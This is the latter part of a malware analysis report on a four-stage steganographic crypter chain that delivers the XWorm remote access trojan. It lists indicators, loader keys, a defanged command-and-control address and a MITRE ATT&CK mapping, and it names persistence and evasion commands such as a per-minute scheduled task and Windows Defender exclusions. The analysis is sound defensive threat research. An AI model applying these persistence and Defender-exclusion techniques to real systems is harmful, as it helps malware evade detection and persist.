| Install path | `%AppData%\bin.exe` |
| USB spreader | `USB.exe` |
| Field separator | `<Xwormmm>` |
| Config KEY field | `<V7PV7PV7PV7PV7P>` |
| Persistence | `schtasks /sc minute /mo 1` (re-run every minute) |
| Defense evasion | Defender `Add-MpPreference` path+process exclusions |
| Anti-analysis | VM / debugger / Sandboxie / XP / any.run → `FailFast` |
| Stage names | `LightConvoy.exe` → `Wagnardsoft.Form1` → `GClass2` → XWorm client |
| Loader keys | XOR key `qbv`; stage-3 cipher key `QbWCJeeOpwRXD`; stego resources `Credit`, `fcFb`, `Zk7lk5` |

## MITRE ATT&CK

| Technique | ID | Evidence |
|-----------|-----|---------|
| Obfuscated/Encoded Files or Information | T1027 | 4-stage loader; stego in bitmaps; .NET Reactor |
| Steganography | T1027.003 | PE bytes stored in `Credit` / `fcFb` pixels |
| Reflective Code Loading | T1620 | `Assembly.Load` + `Activator.CreateInstance` at every stage |
| Deobfuscate/Decode Files or Information | T1140 | Rotating-XOR `Mist`, custom `smethod_13`, AES config |
| Command and Scripting Interpreter: PowerShell | T1059.001 | `Add-MpPreference` exclusions |
| Impair Defenses: Disable or Modify Tools | T1562.001 | Windows Defender exclusions |
| Virtualization/Sandbox Evasion | T1497 | `DetectManufacturer`, Sandboxie, any.run checks |
| Debugger Evasion | T1622 | `DetectDebugger` → `FailFast` |
| Scheduled Task/Job | T1053.005 | `schtasks /sc minute /mo 1` |
| Replication Through Removable Media | T1091 | `USB.exe` spreader |
| Application Layer Protocol | T1071 | Raw-TCP AES framing to C2 |
| Encrypted Channel: Symmetric Cryptography | T1573.001 | AES-256-ECB, key = MD5(Mutex) |
| Network Denial of Service | T1498 | `StartDDos` / `StopDDos` |
| Command and Control via Plugins | T1105 | Reflection-loaded .NET plugins |

## Conclusion

LightConvoy is a textbook crypter chain: a harmless-looking .NET app that reflectively loads a payload hidden in a bitmap, which loads a payload hidden in *another* bitmap, which decrypts a .NET-Reactor-packed stage, which finally drops **XWorm v7.1**. Four stages, three different homemade decode routines, and one commercial obfuscator — all of which came apart statically because each layer has to carry the key to the next.

The RAT's own crypto is the punchline: AES-256 config encryption completely undone by deriving the key from the **Mutex, which ships in plaintext**. Once you have `gyEEm0nCxSgKW9Pf`, the C2 (`185[.]29[.]9[.]105:1012`), the install paths, and the entire wire protocol fall out without ever executing the sample.

### Limitations

I didn't detonate anything — no live C2 traffic was captured, so the protocol section is modeled from the client code, not observed on the wire. The plugin handlers (`Run`, `injRun`, `UACFunc`, `ENC`/`DEC`) are invoked by reflection on payloads delivered at runtime, so their behavior isn't in this binary. The `SeismicChannelAwaitable` seed math and parts of the .NET Reactor control-flow were read only far enough to confirm they're decoys / irrelevant to the unpack.

---

*Tools used: ILSpy, dnSpy, de4dot (de4dotEx), monodis, Python (PIL, pycryptodome)*
